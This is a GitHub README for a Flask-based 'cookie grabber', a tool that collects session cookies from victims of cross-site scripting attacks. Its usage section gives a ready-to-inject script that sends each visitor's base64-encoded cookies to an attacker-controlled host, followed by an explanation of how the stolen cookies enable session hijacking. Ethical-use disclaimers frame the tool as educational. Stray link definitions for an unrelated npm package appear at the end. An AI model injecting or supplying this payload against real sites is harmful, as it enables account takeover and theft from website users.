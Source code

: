 # Cookie grabber 
> A simple cookie grabber built with Python and Flask.

![License](https://img.shields.io/badge/license-MIT-blue.svg)  
![Python](https://img.shields.io/badge/python-3.x-green.svg)  
![Flask](https://img.shields.io/badge/flask-2.x-red.svg)

A simple cookie grabber built with Python and Flask. This tool is designed to capture cookies from users who are targeted by an XSS (Cross-Site Scripting) attack.
**This tool is for educational and ethical testing purposes only.**


## Installation

```bash
  git clone https://github.com/0273574/cookie_grabber.git
  cd cookie_grabber

  # Create a virtual environment
  python3 -m venv env
  source env/bin/activate

  #  Install dependencies
  pip install -r requirements.txt
```

## Usage example

When a website has a login functionality and contains a form vulnerable to Cross-Site Scripting (XSS), an attacker can exploit this vulnerability by injecting malicious JavaScript code. For example, the attacker could inject the following script:

```javascript
Copy
<script>
  var img = document.createElement("img");
  img.src = "http://ip.addr.of.grabber:443/grab.php?cookie=" + btoa(document.cookie);
  document.body.appendChild(img);
</script>
```
## How It Works

- The script creates an `<img>` element.
- The `src` attribute of the image is set to a URL controlled by the attacker, which includes the victim's cookies (encoded in Base64) as a query parameter.
- When the browser attempts to load the image, it sends an HTTP request to the attacker's server, exfiltrating the victim's session cookies.
- The attacker can then decode the cookies and potentially hijack the victim's session.

## Ethical Considerations

This tool is designed for educational purposes and ethical security testing only. It should only be used in environments where you have explicit permission to test for vulnerabilities. Unauthorized use of this tool to exploit or harm systems, networks, or individuals is illegal and unethical. The developers and contributors of this project are not responsible for any misuse of this tool.

Always ensure you have proper authorization before using this tool in any environment.

[https://github.com/0273574/](https://github.com/0273574/)

## Contributing

1. Fork it (<https://github.com/0273574/cookie_grabber/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request

Please ensure that any contributions adhere to ethical guidelines and are intended for educational or authorized security testing purposes only.
<!-- Markdown link & img dfn's -->
[npm-image]: https://img.shields.io/npm/v/datadog-metrics.svg?style=flat-square
[npm-url]: https://npmjs.org/package/datadog-metrics
[npm-downloads]: https://img.shields.io/npm/dm/datadog-metrics.svg?style=flat-square
[travis-image]: https://img.shields.io/travis/dbader/node-datadog-metrics/master.svg?style=flat-square
[travis-url]: https://travis-ci.org/dbader/node-datadog-metrics

